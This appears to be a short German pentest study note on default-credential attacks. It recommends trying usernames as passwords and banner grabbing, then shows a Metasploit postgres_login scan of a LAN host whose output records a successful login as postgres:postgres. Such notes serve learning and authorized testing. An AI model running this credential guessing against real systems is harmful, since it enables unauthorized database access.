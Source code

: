 Auch aussichtsreich: Usernamen als Passwort probieren



Banner Grabbing, etc. -> Hersteller, SW Version  -> Suchen nach Default Logins

### Metasploit

```
msf6 > use auxiliary/scanner/postgres/postgres_login
msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 192.168.178.71
RHOSTS => 192.168.178.71
msf6 auxiliary(scanner/postgres/postgres_login) > run

[-] 192.168.178.71:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[+] 192.168.178.71:5432 - Login Successful: postgres:postgres@template1
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 192.168.178.71:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Metasploit enthält etliche Default Passwörter Listen:
